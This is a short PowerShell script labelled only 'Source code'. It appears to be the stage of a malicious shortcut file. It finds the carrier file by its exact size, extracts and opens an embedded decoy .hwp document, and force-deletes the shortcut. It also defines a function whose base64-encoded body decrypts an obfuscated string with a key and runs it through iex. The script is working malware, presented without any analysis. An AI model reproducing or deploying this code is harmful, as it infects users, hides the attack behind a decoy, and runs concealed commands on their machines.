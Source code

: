 $lk=ls -Path '.\' ;
$lk= Where {$lk.length -eq 56397};
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2 | Where {$_.length -eq 56397}};$n=$lk.name.Replace('.lnk','.hwp');$lk=$lk.FullName;$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];$fPath=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fPath,$file1);&$fPath;ri $lk -force;

Function DS
{
	[CmdletBinding()] Param (
		[Parameter(Position = 0, ValueFromPipeline = $True)]
		[ValidateNotNullOrEmpty()]
		[String]
		$obfString,
		
		[Parameter(Position = 1)]
        [ValidateNotNullOrEmpty()]
        [String]
        $k		
    )
	
	$a="JHNlZ3NkID0gW1N5c3RlbS5Db252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygkSykNCiR3ZXJmZyA9IChOZXctT2JqZWN0ICBNYW5hZ2VtZW50LkF1dG9tYXRpb24uUFNDcmVkZW50aWFsICcgJywgKCRPYmZTdHJpbmcgfENvbnZlcnRUby1TZWN1cmVTdHJpbmcgLUtleSAgJHNlZ3NkKSkuR2V0TmV0d29ya0NyZWRlbnRpYWwoKS5QYXNzd29yZA0KICR3ZXJmZw0K"
	$dB = [System.Convert]::FromBase64String($a)
	$dS = [System.Text.Encoding]::UTF8.GetString($dB)
	iex $dS;
}





